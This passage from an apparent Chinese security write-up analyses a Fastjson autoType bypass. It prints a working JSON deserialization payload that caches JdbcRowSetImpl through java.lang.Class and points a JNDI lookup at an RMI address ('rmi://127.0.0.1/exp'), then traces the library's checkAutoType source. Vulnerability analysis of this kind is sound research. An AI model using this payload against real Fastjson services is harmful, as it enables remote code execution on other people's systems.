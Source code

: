 然后我们先来看**第一种**`poc`。  
我们仔细欣赏下第一种`poc`的`payload`：

```plain
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1/exp","autoCommit":true}}
```

我们会发现，加上`{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}`就会绕过原本的`autoType`，由此我们可以猜测，针对未开启`autoType`的情况，`fastjson`的源代码中应该是有相关方法去针对处理的，并且利用我们的这种方式，正好可以对应上。  
于是我们直接去查看源代码，翻到`checkAutoType`的地方，可以看到，如果没开启`autoType`，就会有以下两种加载方式：  
[![](assets/1706233003-63327be0f5395f2b0c9fe49bee0761fd.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170502-a8bc2d94-ba97-1.jpeg)  
第一种是从`mappings`里面获取，也就是上图中的第`727`行代码，点进去之后可以看到：  
[![](assets/1706233003-f061ec07dcbbf628a0e1e8c3b08b8e64.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170503-a9373912-ba97-1.jpeg)  
如果获取不到就采用第二种方法，也就是第`728`\-`730`行代码，从`deserializers`中获取。  
`deserializers`是什么呢？可以看`fastjson-1.2.25.jar!\com\alibaba\fastjson\parser\ParserConfig.class`的第`172`\-`241`行，里面是内置的一些类和对应的反序列化器。  
